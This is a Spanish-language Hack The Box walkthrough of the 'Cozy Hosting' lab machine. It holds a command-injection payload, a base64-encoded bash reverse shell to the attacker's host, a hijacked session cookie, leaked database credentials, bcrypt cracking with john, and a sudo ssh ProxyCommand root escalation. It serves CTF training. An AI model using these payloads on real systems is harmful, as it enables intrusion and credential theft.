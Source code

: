 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/cozy-hosting/"}
---
```



---
# Información general

| OS               | Linux                           |
| ---------------- | ------------------------------- |
| Desarrollado por | Pablo Flores(Ge0), Amal & Mitia |
| Dificultad       | Fácil                           |
| Liberación       | 26 Febrero 2024                 |
| Puntos           | 20                              |

---
# Enumeración

## Puertos
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```shell
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```shell
sudo nmap -sCV -A -p22,80 10.10.11.230
```

**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**

Encontramos información como la versión del ssh, el puerto 80 usa nginx
## Puerto 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```shell
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```shell
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![Pasted image 20240224150700.png|700](/img/user/Pasted%20image%2020240224150700.png)
*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.

Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```shell
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```

Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"
# Ganando acceso
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![Pasted image 20240224151423.png|700](/img/user/Pasted%20image%2020240224151423.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![Pasted image 20240224164342.png|700](/img/user/Pasted%20image%2020240224164342.png)
Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![Pasted image 20240224174614.png|700](/img/user/Pasted%20image%2020240224174614.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![Pasted image 20240224175147.png|700](/img/user/Pasted%20image%2020240224175147.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```shell
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```shell
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![Pasted image 20240224180231.png|700](/img/user/Pasted%20image%2020240224180231.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```shell
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```shell
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![Screenshot_20240224_184639.png](/img/user/Screenshot_20240224_184639.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![Pasted image 20240226222427.png](/img/user/Pasted%20image%2020240226222427.png)

Al listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```shell
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```shell
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```shell
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```shell
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![Pasted image 20240226215038.png|400](/img/user/Pasted%20image%2020240226215038.png)

Mostramos el contenido de las columnas de la tabla `user`
![Pasted image 20240226215454.png|700](/img/user/Pasted%20image%2020240226215454.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![Pasted image 20240226221711.png|700](/img/user/Pasted%20image%2020240226221711.png)

Ingresamos mediante `ssh` usando la contraseña y el usuario `josh`
```shell
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:
![Pasted image 20240226223120.png|400](/img/user/Pasted%20image%2020240226223120.png)
# Escalada de privilegios
Probamos si ejecutar algún comando como root:
```shell
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![Pasted image 20240226231132.png|400](/img/user/Pasted%20image%2020240226231132.png)